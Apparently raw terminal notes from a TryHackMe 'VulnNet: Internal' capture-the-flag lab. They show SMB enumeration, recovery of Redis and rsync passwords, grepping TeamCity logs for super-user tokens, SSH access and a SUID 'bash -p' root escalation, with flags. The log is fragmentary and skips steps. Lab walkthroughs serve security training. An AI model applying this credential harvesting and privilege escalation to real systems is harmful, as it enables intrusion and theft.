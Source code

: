 
Internal Thm vulnnet





└─# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                        
smb: \> ls
  .                                   D        0  Tue Feb  2 14:50:09 2021
  ..                                  D        0  Tue Feb  2 14:58:11 2021
  temp                                D        0  Sat Feb  6 17:15:10 2021
  data                                D        0  Tue Feb  2 14:57:33 2021
cd dat
                11309648 blocks of size 1024. 3277596 blocks available
smb: \> cd data
smb: \data\> ls
  .                                   D        0  Tue Feb  2 14:57:33 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  data.txt                            N       48  Tue Feb  2 14:51:18 2021
  business-req.txt                    N      190  Tue Feb  2 14:57:33 2021

   
               mb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 17:15:10 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  services.txt                        N       38  Sat Feb  6 17:15:09 2021
cat servid
                11309648 blocks of size 1024. 3277360 blocks available
smb: \temp\> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
            
                           
                           
requirepass "B65Hx562F@ggAZ@F"
masterauth <master-password>
echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d

Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v


THM{ff8e518addbbddb74531a724236a8221}
rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/         
Password: 
┌──(root㉿kali)-[/rsync]
└─# ls
user.txt
                                                                             
┌──(root㉿kali)-[/rsync]
└─# cat user.txt        
THM{da7c20696831f253e0afaca8b83c07ab}


┌──(root㉿kali)-[~mikey/internal]
└─# ssh -i id sys-internal@10.10.120.193                                                                    
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.



sys-internal@vulnnet-internal:/TeamCity/conf$ ss -tulwn
Netid                    State                       Recv-Q                      Send-Q                                                 Local Address:Port                                            Peer Address:Port                     
icmp6                    UNCONN                      0                           0                                                             *%eth0:58                                                         *:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:57786                                                0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:54809                                                0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:50753                                                0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:36466                                                0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:929                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:2049                                                 0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                      127.0.0.53%lo:53                                                   0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                 10.10.120.193%eth0:68                                                   0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:111                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                      10.10.255.255:137                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                      10.10.120.193:137                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:137                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                      10.10.255.255:138                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                      10.10.120.193:138                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:138                                                  0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:5353                                                 0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                            0.0.0.0:53534                                                0.0.0.0:*                        
udp                      UNCONN                      0                           0                                                               [::]:56798                                                   [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:51743                                                   [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:39536                                                   [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:58091                                                   [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:929                                                     [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:2049                                                    [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:46139                                                   [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:111                                                     [::]:*                        
udp                      UNCONN                      0                           0                                                               [::]:5353                                                    [::]:*                        
tcp                      LISTEN                      0                           5                                                            0.0.0.0:873                                                  0.0.0.0:*                        
tcp                      LISTEN                      0                           50                                                           0.0.0.0:139                                                  0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:6379                                                 0.0.0.0:*                        
tcp                      LISTEN                      0                           64                                                           0.0.0.0:36111                                                0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:60687                                                0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:111                                                  0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:37685                                                0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                    127.0.0.53%lo:53                                                   0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:22                                                   0.0.0.0:*                        
tcp                      LISTEN                      0                           5                                                          127.0.0.1:631                                                  0.0.0.0:*                        
tcp                      LISTEN                      0                           50                                                           0.0.0.0:445                                                  0.0.0.0:*                        
tcp                      LISTEN                      0                           64                                                           0.0.0.0:2049                                                 0.0.0.0:*                        
tcp                      LISTEN                      0                           128                                                          0.0.0.0:41703                                                0.0.0.0:*                        
tcp                      LISTEN                      0                           1                                                 [::ffff:127.0.0.1]:8105                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:41993                                                   [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:55849                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                               [::]:873                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                            [::1]:6379                                                    [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:41611                                                   [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:139                                                     [::]:*                        
tcp                      LISTEN                      0                           100                                               [::ffff:127.0.0.1]:8111                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:111                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:22                                                      [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:37015                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                              [::1]:631                                                     [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:445                                                     [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:2049                                                    [::]:*                        
tcp                      LISTEN                      0                           50                                                                 *:9090                                                       *:*  

sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i token
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)

![](https://i.imgur.com/cNWT1V5.png)

bash-4.4$ ./bash -p
bash-4.4# whoami
root



bash-4.4# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
          
                                            
